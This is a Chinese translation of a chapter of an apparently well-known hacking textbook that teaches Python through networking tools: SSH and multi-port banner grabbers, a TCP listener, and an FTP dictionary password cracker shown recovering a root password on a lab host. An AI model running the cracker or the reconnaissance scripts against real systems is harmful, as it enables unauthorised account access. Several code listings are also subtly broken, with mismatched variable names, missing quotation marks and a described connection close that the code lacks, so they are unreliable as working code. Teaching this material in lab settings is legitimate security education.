当我们再次运行这个脚本时，我们可以看到新的print语句在其他输出下打印了 4：

kali \>./secondpythonscript.py

Hackers­Arise Is the Best Place to Learn Hacking 12

3.1415

4

#### *模块*

模块是保存到单独文件中的一段代码，因此你可以在程序中根据需要多次使用它，而无需再次输入。如果你想要使用模块或模块中的任何代码，你需要import
它。如前所述，使用标准和第三方模块是使Python对黑客如此强大的关键功能之一。如果要使用之前安装的nmap模块，我们将在脚本中添加以下行：

import nmap

在本章后面，我们将使用两个非常有用的模块：socket和ftplib。

### 面向对象编程（*OOP*）

在深入研究Python之前，可能需要花几分钟时间来讨论面向对象编程的概念（OOP）。Python与当今大多数编程语言（C++、Java和Ruby）一样，遵循OOP模型。

图
17­2展示了OOP背后的基本概念：编程语言的主要工具是对象，它具有属性和状态形式的属性，以及由对象执行或在对象上执行的操作的方法。

*图 17­2: 面向对象编程*

OOP编程语言背后的思想是创建与现实世界中的事物类似的对象。例如，汽车是一个具有诸如轮子、颜色、大小和发动机类型等属性的对象；它也有一些方法，例如加速和锁门，这些方法就是汽车所采取的行动。从人类的自然语言来看，对象是名词，属性是形容词，方法一般是动词。

对象是类的成员，类基本上是用于创建具有共享初始变量、属性和方法的对象的模板。例如，假设我们有一个叫car的类；我们的车（宝马）将成为car类的一员。该类还包括其他对象/汽车，如奔驰和奥迪，如图17­3所示。

*图 17­3: OOP 类和对象*

类也可以有子类。我们的Car类有一个BMW子类，该子类的对象可能是320i。

每个对象都有属性（品牌、型号、年份和颜色）和方法（开始、驾驶和停车），如图
17­4所示。

*图 17­4: OOP 属性和方法*

在OOP语言中，对象继承了类的特性，因此BMW320i将从car类继承启动、驱动和驻车方法。

这些OOP概念对于理解Python和其他OOP语言的工作方式至关重要，正如你将在下面的部分的脚本中看到的那样。

### *PYTHON*网络通信

在我们继续讨论更多的python概念之前，让我们先用您到目前为止学到的知识编写一些黑客脚本来处理网络连接。

#### *建立TCP 客户端*

我们将使用套接字(socket)模块在Python中创建一个网络连接。我已经提到过Python附带了一个用于执行大量任务的模块库。在这种情况下，我们将需要socket模块来创建TCP连接。让我们看看它的实际效果。

看一下名为HackersAriseSSHBannerGrab.py的文本清单17-3中的脚本（我知道，这个名字很长，但请忍受）。banner是当某人或某物连接到它时应用程序呈现的内容。它有点像发送问候语的应用程序，宣布它是什么。黑客使用一种称为*banner获取*的技术来查找关于端口上运行的应用程序或服务的重要信息。

\#! /usr/bin/python3

➊ import socket

➋ s = socket.socket()

➌ s.connect(("192.168.1.101", 22))

➍ answer = s.recv(1024)

➎ print(answer)

*清单17­3: banner­获取Python脚本*

首先，我们导入socket模块➊，以便使用它的功能和工具。这里，我们将使用socket模块中的网络工具来为我们处理通过网络连接的接口。Socket为两个计算机节点提供了相互通信的方式。通常一个节点是服务端一个是客户端。

然后我们创建了一个新的变量 s
，然后将它和socket模块中的socket类关联➋。这样，每当我们想使用socket类时，就不必引用完整的socket.socket（）语法，只需使用s变量名即可。

然后，我们使用socket模块➌中的connect（）方法来建立到特定IP和端口的网络连接。记住，方法是可用于特定对象的函数，语法为object.method（例如socket.connect）。这里，我连接到IP地址192.168.1.101，它是我网络上一台电脑的IP地址，22端口是默认的ssh端口。您可以在Linux或Kali的另一个实例上对此进行测试。大多数22端口是默认打开。

一旦你建立了联系，就可以做很多事情。这里我们使用接收方法recv
来接收来自socket的1024 bytes数据 ➍ 并且将他们储存到一个叫answer的变量里；这1024
bytes包含了banner信息。然后，我们用print（）函数将该变量的内容打印到屏幕上，以查看通过该socket传递的数据，从而允许我们监视它！在最后一行，我们关闭连接。

保存脚本到HackersAriseSSHBannerGrab.py然后使用chmod命令更改权限，这样你就可以执行它。

让我们运行这个脚本来连接到另一个Linux系统上的22号端口（你可能使用Ubuntu系统，甚至另一个Kali系统）。如果ssh在那个端口上运行，我们应该能够将banner读取到我们的answer变量中，并将它打印到屏幕上，如下所示：

kali \>./HackersAriseSSHBannerGrab.py

SSH­2.0­OpenSSH_7.3p1 Debian­1

我们刚刚创建了一个简单的banner抓取python脚本！我们可以使用这个脚本来找出在IP地址和端口上运行的应用、版本和操作系统。这给了我们攻击系统前需要的关键信息。这的本质上就是shodan.io网站对地球上几乎每个IP地址所做的，它为我们把这些信息分类和建立索引。

#### *创建TCP 监听器*

我们刚刚创建了一个TCP客户机，它可以连接到另一个TCP/IP地址和端口，然后监视正在传输的信息。socket还可以用于创建TCP监听器，以监听从外部到服务器的连接。我们接下来尝试一下。

在清单列表
17-4的Python脚本中，你将创建一个任意端口的socket，当别人连接这个socket时，收集连接者系统的关键信息。输入脚本并保存为tcp_server.py。确保使用chmod授予你自己执行权限。

\#!/usr/bin/python3 import socket

➊ TCP_IP = "192.168.181.190" TCP_PORT = 6996

BUFFER_SIZE = 100

➋ s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

➌ s.bind((TCP_IP, TCP_PORT))

➍ s.listen (1)

➎ conn,addr = s.accept()

print ('Connection address: ', addr )

while 1:

data=conn.recv(BUFFER_SIZE)

if not data:break

print ("Received data: ", data)

conn.send(data) \#echo

conn.close

*清单17­4: TCP­监听Python脚本*

我们声明希望脚本使用Python解释器运行，然后像以前一样导入套接字模块，这样我们就可以使用它的功能。然后，我们定义变量来保存TCP/IP地址、要监听的端口以及要从连接系统捕获的数据的缓冲区大小的信息➊。

我们定义了socket
➋，并使用刚才创建的变量将socket绑定到IP地址和端口➌。我们告诉socket使用socket库➍中的listen()方法进行侦听。

然后，我们使用socket库的accept方法捕获连接系统的IP地址和端口，并将这些信息打印到屏幕上，以便用户可以看到它➎。注意这里的while
1:语法；我们将在本章后面更详细地讨论它，但现在只需知道它用于无限循环运行它下面缩进的代码，这意味着python会一直检查数据，直到程序停止。

最后，我们将来自连接系统的信息放入缓冲区，打印出来，然后关闭连接。

现在，转到网络上的另一台计算机，使用浏览器连接到脚本中指定的6996端口。运行tcp_server.py脚本，你应该能够连接和收集有关那个系统的关键信息，包括连接系统的IP地址和端口，如下所示：

kali \>./tcp_server.py

Connection Address: ('192.168.181.190', 45368) Received data: Get /HTTP/1.1
Host:192.168.181.190:6996

User ­Agent:Mozilla/5.0 (X11; Linux x86_64; rv:45.0) Gec

­­snip­­­

这是黑客在决定攻击前收集的关键信息。漏洞攻击（或黑客攻击）是针对特定的操作系统、应用程序，甚至是正在使用的语言，因此黑客需要在继续操作之前尽可能了解有关目标的信息。在黑客攻击之前收集信息的行为通常被称为侦察。你刚刚开发了一个工具，可以收集潜在目标的关键侦察信息，非常类似于流行的黑客工具p0f！

### 字典，循环，和控制语句

让我们继续扩展你对python的理解，然后使用所学的一切来为ftp服务器构建密码破解程序。

#### *字典*

字典以乱序对的形式保存信息，其中每对键值都包含一个键和一个关联的值。我们可以使用字典来存储事物列表，并给每个事物一个标签，这样我们就可以单独使用和引用该事物。例如，我们可以使用字典来存储用户ID及其关联名字，或者存储与特定主机关联的已知漏洞。Python中的字典在其他语言中的作用类似于关联数组。

与列表一样，字典也是可迭代的，这意味着我们可以使用一个控制结构，例如for语句遍历整个字典，将字典的每个元素赋给一个变量，直到字典结束。

除其他事情外，你可以使用此结构构建密码破解器，遍历存储在字典中的每个密码，直到某个密码生效或破解器到达字典末尾。

创建字典的语法如下：

dict = {key1:value1, key2:value2, key3:value3...}

值得注意的是，对于字典，使用大括号和逗号分隔项。你可以包括任意数量的键值对。

#### *控制语句*

控制语句允许你的代码根据某些条件做出决策。在Python中有许多方法可以控制脚本的流程。

让我们看看Python中的这些结构。

##### If语句

与许多其他编程语言（包括bash）一样，python中的if结构用于检查条件是否为真，并为每个场景运行不同的代码集。语法如下：

if conditional expression

run this code if the expression is true

if语句包含的条件可能类似于if
variable\<10，例如。如果满足条件，则表达式的结果为true，然后执行后面的代码（称为控制块）。如果语句的结果为false，则将跳过控制块中的语句，而不执行这些语句。

在python中，控制块必须缩进。这个缩进向解释器标识控制块。下一条未缩进的语句将会在控制块之外，因此不是if语句的一部分，这就是python知道如果条件不满足，跳到哪里的方法。

##### if...else

python中的if…else结构如下：

if conditional expression

\*\*\* \# run this code when the condition is met

else

\*\*\* \# run this code when the condition is not met

和前面一样，首先解释器检查if表达式中的条件。如果结果为true，解释器将执行控制块中的语句。如果条件语句的结果为false，则执行else语句后面的控制块。

例如，这里有一个用于检查用户ID的值的代码片段，如果它是0（Linux中的root用户始终是uid
0），则我们打印消息“You are the root
user.”否则，如果它是任何其他值，则我们打印消息“You are NOTthe root user.”。

if userid == 0

print ("You are the root user") else

print ("You are NOT the root user")

#### *循环*

循环是Python中另一个非常有用的结构。循环允许程序员根据值或条件多次重复代码块。两个最广泛使用的是while和for循环。

##### While循环

while循环计算布尔表达式（结果为true或false的表达式），并在表达式计算为true时继续执行。例如，我们可以创建一个代码片段，打印1到10之间的每个数字，然后退出循环，如下所示：

count = 1

while (count \<= 10):

print (count)

count += 1

然后，只要条件为真，缩进的控制块就一直运行。

##### For循环

for循环可以每次通过循环将列表、字符串、字典或其他可迭代结构中的值赋给变量，从而允许我们一个接一个地使用结构中的每个项。例如，我们可以使用for循环尝试密码，直到找到匹配项，如：

for password in passwords:

attempt = connect (username, password)

if attempt == "230"

print ("Password found: " + password)

sys.exit (0)

在这段代码片段中，我们创建了一个for语句，该语句将遍历我们提供的密码列表，并尝试使用用户名和密码进行连接。如果连接尝试接收到230代码，即成功连接的代码，程序将打印“Password
found:”，然后打印密码，然后退出。如果它没有得到230，它将继续通过每个剩余的密码，直到它收到230或直到它遍历完密码列表。

### 改进我们的黑客脚本

现在，有了Python循环结构和条件语句有关的背景知识，让我们回到我们的banner抓取脚本，并添加一些功能。

我们将添加一个要获取banner的端口列表，而不仅仅是监听一个端口，然后使用for语句遍历该列表。通过这种方式，我们可以搜索和抓取多个端口的banner，并将它们显示在屏幕上。

首先，让我们创建一个列表并在其中添加其他端口。打开HackersAriseSSHBannerGrab.py,我们将从那开始。清单列表
17­5
展示了完整的代码。请注意，灰色行和之前一样，黑色行是你需要更改或添加的行。我们将尝试获取端口21（ftp）、22（ssh）、25（smtp）和3306（mysql）的banners。

\#! /usr/bin/python3 import socket

➊ Ports = [21,22,25,3306]

➋ for i in range (0,4): s = socket.socket()

➌ Ports = Port[i]

print ('This Is the Banner for the Port')

print (Ports)

➍ s.connect (("192.168.1.101", Port))

answer = s.recv (1024)

print (answer)

s.close ()

*清单 17­5: 改进 banner 抓取*

我们创建一个名为Ports
➊的列表，并添加四个元素，每个元素表示一个端口。然后我们创建一个for语句，该语句在该列表中迭代四次，因为它有四个项➋。

记住，当使用for循环时，与循环关联的代码必须缩进到for语句下面。

我们需要修改程序，以反映在每次迭代过程中使用列表中的变量。为此，我们创建一个名为port的变量，并在每次迭代➌时将列表中的值分配给它。然后我们在连接中使用这个变量➍。

当解释器到达该语句时，它将尝试连接到IP地址下分配给变量的任何端口。

现在，如果你在一个系统上运行这个脚本，并且所有列出的端口都已打开并启用，那么您应该会看到类似于清单17­6。

kali \>./HackersArisePortBannerGrab.py This is the Banner for the Port

21

220 (vsFTPd 2.3.4)

This Is the Banner for the Port 22

SSH­2.0­OpenSSH_4.7p1 Debian­8ubuntu1

This Is the Banner for the Port 25

220 metasploitable.localdomain ESMTP Postfix (Ubuntu)

This Is the Banner for the Port 3306

5.0.51 a­3ubuntu5

*清单清单 17­6:端口banner 抓取的输出*

注意，脚本发现21号端口在运行vsftpd 2.3.4，22号端口在运行openssh
4.7，25号端口在运行postfix时打开，3306号端口在运行mysql 5.0.51a。

我们刚刚成功地在python中构建了一个多端口的banner抓取工具，用于对目标系统执行侦察。该工具告诉我们哪个服务正在哪个端口上运行，以及该服务的版本！这是黑客在进行攻击前需要的关键信息。

### 异常和密码破解

你编写的任何代码都有出错或异常的风险。在编程术语中，异常是任何破坏代码正常流程的东西，通常是由错误的代码或输入引起的错误。为了处理可能的错误，我们使用异常处理，它是处理特定问题的代码，显示错误消息，甚至使用异常进行决策。在Python中，我们有try/except结构来处理这些错误或异常。

Try会尝试执行一些代码，如果发生错误，except语句将处理该错误。在某些情况下，我们可以使用try/except结构进行决策，类似于if...else。例如，我们可以在密码破解程序中使用try/except来尝试密码，如果由于密码不匹配而发生错误，则使用except语句移动到下一个密码。我们现在试试看。

输入清单17-7中代码并保存为ftpcracker.py，稍后我们将进行介绍。这个脚本要求用户输入ftp服务器号和要破解的ftp帐户的用户名。然后它读取一个包含可能密码列表的外部文本文件，并尝试每个密码来破解ftp帐户。脚本执行此操作直到成功或密码用完。

\#! /usr/bin/python3 import ftplib

➊ server = input(FTP Server: ")

➋ user = input("username: ")

➌ Passwordlist = input ("Path to Password List \> ")

➍ try:

with open(Passwordlist, 'r') as pw:

for word in pw:

➎ word = word.strip ('\\r').strip('\\n')

➏ try:

ftp = ftplib.FTP(server)

ftp.login(user, word)

➐ print (Success! The password is ' + word)

➑ except:

print('still trying...') except:

print ('Wordlist error')

*清单列表 17­7: FTP Python密码破解脚本*

我们将使用ftplib模块中的工具来实现FTP协议，所以首先我们导入它。然后，我们创建一个名为server的变量和另一个名为user的变量，它将存储一些用户输入的命令。你的脚本将提示用户输入FTP服务器的IP地址➊和用户尝试进入的帐户的用户名➋。

然后我们询问用户密码列表➌的路径。通过在终端中输入locate wordlist，您可以在kali
linux中找到许多密码列表。

然后，我们开始try代码块，该代码将使用用户提供的密码列表来尝试破解用户提供的用户名的密码。

注意，我们使用了一个新的名为strip()➎的python函数。此函数删除字符串的第一个和最后一个字符（在这里是密码列表）。如果此列表中的密码前面有空格或逗号，则需要执行此操作。strip()函数的作用是：删除这些字符，只留下潜在密码的字符串。如果我们不去除空白，我们可能会得到一个假阴性。

然后，我们使用第二个try➏代码块。这里，我们首先使用ftplib模块连接到用户提供的IP地址的服务器，然后从该帐户的密码列表中尝试下一个密码。

如果用户名和密码的组合导致错误，则代码块退出并转到except子句➑，在该子句中打印still
trying，然后返回到for子句的顶部并从密码列表中获取下一个密码以尝试。

如果组合成功，成功的密码将会被打印到屏幕上➐。最后一行记录任何其他可能导致错误的情况。例如，如果用户输入程序无法处理的内容，例如单词表的路径错误或缺少单词表。

现在，让我们对192.168.1.101的FTP服务运行这个脚本，看看是否可以破解root用户的密码。我使用的是我工作目录中名为bigpasswordlist.txt的密码列表。如果密码列表不在你的工作目录中，您可能需要提供到所使用密码列表的完整路径（例如，/usr/share/bigpasswordlist.txt）。

kali \>./ftpcracker.py

FTP Server:

192.168.1.101

username: root

Path to PasswordList \>bigpasswordlist.txt still

trying...

still trying...

still trying...

­­snip­­

Success! The password is toor

如你所见，ftpcracker.py 成功找到了root 用户的密码，并把她展示到屏幕上。

### 总结

要想从脚本小子毕业，黑客必须掌握一种脚本语言，而python通常是良好首选，因为其通用性和相对较小的学习曲线。大多数黑客工具都是用python编写的，包括sqlmap、scapy和其他许多工具。在这里，你学习了一些可以用来构建一些简单但有用的黑客工具的Python基础知识，包括一个banner抓取器和一个ftp密码破解器。如果想要学习更多Python知识，我强烈推荐由Al
Sweigart 编写的 No Starch Press出版社的优秀书籍《Automate the Boring Stuff with
Python (2015)》。

顶级黑客？从这开始
------------------

SPIRING HACKER? START HERE.

**COVERS KALI LINUX AND PYTHON 3**

如果你开始沿着黑客、网络安全和渗透测试的这条激动人心的道路开始，Linux Basics for
Hackers是一个很好的第一步。使用Linux的高级渗透测试版Kali
Linux，您将学习使用Linux操作系统的基础知识，并获得控制Linux环境所需的工具和技术。

首先，您将学习如何在虚拟机上安装Kali并了解基本的Linux概念。接下来，您将处理更广泛的Linux主题，如操作文本、控制文件和目录权限以及管理用户环境变量。然后，您将专注于基础黑客概念，如安全性和匿名性，并使用bash和Python学习脚本技能。

实践教程和练习将贯穿始终，将强化和测试您的技能，因为您将学习如何：

-   通过更改网络信息和操作rsyslog日志记录实用程序来覆盖您的痕迹，编写工具以扫描网络连接，并连接和收听无线网络

-   使用Tor、代理服务器、VPN和加密电子邮件保持您的互联网活动隐秘

-   编写bash脚本以扫描开放端口以查找潜在的目标

-   使用和滥用，如MySQL，Apache WebServer和OpenSSH等服务

-   构建自己的黑客工具，例如远程视频间谍摄像头和密码破解程序

黑客攻击很复杂，而且没有单一的方法。为什么不从一开始就使用Linux Basics for
Hackers？

关于作者
--------

OccupyTheWeb是一名信息安全顾问，调查取证专家和培训师，拥有超过20年的行业经验。他负责维护HackersArise培训网站（<https://www.hackers-arise.com>），并培训美国军方人员、国防部承包商和联邦员工进行信息安全和黑客攻击。

**THE FINEST IN GEEK ENTERTAINMENT™**

[www.nostarch.com](../TP1_backup/www.nostarch.com)

关于译者
--------

汉武安全实验室专注国际范围内主流数据库安全漏洞和数据安全攻防技术研究，是杭州汉领信息科技有限公司（http://www.leadsino.com）旗下数据安全防护与综合安全解决方案能力研究团队，同时是一支独立的、持久的针对数据库安全漏洞、攻击技术模拟和数据库安全防护技术进行研究的专业队伍。

[www.hawoo.net](../TP1_backup/www.hawoo.net)

-   [byr0nchan](https://github.com/byr0nchan)（两块，网络信息数据安全研究从业者，研究合规、风险评估及攻防，RHCE/RHCA(Cloud)/DJCP/CISP/CISSP，超级影迷）

-   [ink247GG](https://github.com/ink247GG)（信息安全还未从业者，具有CompTIA
    security+ CE和OSWP认证，据说目前在努力考取OSCP中）

-   [咸鱼](https://github.com/OpenCyberTranslationProject/TP1/blob/master)（大数据安全工程师，加拿大本科大三，具有RHCE，CompTIA
    security+ 认证）

-   [nJcx](https://github.com/nJcx)（甲方安全开发工程师，主要负责nids、hids、waf的研发，偶尔业余挖挖src，喜欢骑行、做饭、爬山）

-   [sara961](https://github.com/sara961)（石帅哥，等级保护测评安全从业者，超级无敌大帅哥，精通各种划水技术）
